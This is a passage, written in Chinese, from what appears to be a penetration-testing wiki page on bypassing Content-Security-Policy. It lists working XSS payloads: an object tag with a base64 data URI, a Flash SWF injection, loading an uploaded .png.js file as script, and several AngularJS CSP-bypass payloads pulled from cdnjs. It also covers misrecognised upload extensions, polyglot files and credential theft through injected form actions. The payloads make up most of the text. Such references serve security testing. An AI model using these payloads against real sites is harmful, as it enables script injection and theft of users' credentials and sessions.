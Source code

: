 {% hint style="danger" %}
**看起来这不再有效**
{% endhint %}
```yaml
Content-Security-Policy: script-src 'self' ;
```
有效的有效载荷：
```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
### 文件上传 + 'self'
```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```
如果您可以上传一个 JS 文件，您可以绕过这个 CSP：

工作有效载荷：
```markup
"/>'><script src="/uploads/picture.png.js"></script>
```
然而，服务器**正在验证上传的文件**，并且只允许您**上传特定类型的文件**。

此外，即使您能够使用服务器接受的扩展名（如：_script.png_）在文件中上传**JS代码**，这也不够，因为一些服务器如apache服务器**根据扩展名选择文件的MIME类型**，而像Chrome这样的浏览器将**拒绝执行应该是图像的内容中的Javascript**代码。“希望”有错误。例如，从一个CTF中我了解到**Apache不知道**_**.wave**_扩展名，因此它不会以**MIME类型如audio/***提供它。

从这里开始，如果您发现XSS和文件上传，并且您设法找到一个**被误解的扩展名**，您可以尝试上传一个具有该扩展名和脚本内容的文件。或者，如果服务器正在检查上传文件的正确格式，可以创建一个多重格式文件（[一些多重格式示例在这里](https://github.com/Polydet/polyglot-database)）。

### Form-action

如果无法注入JS，您仍然可以尝试通过**注入表单操作**来提取例如凭据（并可能期望密码管理器自动填充密码）。您可以在[**此报告中找到一个示例**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)。另外，请注意`default-src`不涵盖表单操作。

### 第三方端点 + ('unsafe-eval')

{% hint style="warning" %}
对于以下某些有效负载**`unsafe-eval`甚至不需要**。
{% endhint %}
```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```
加载一个易受攻击的 Angular 版本并执行任意 JS：
```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
</script>
<img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```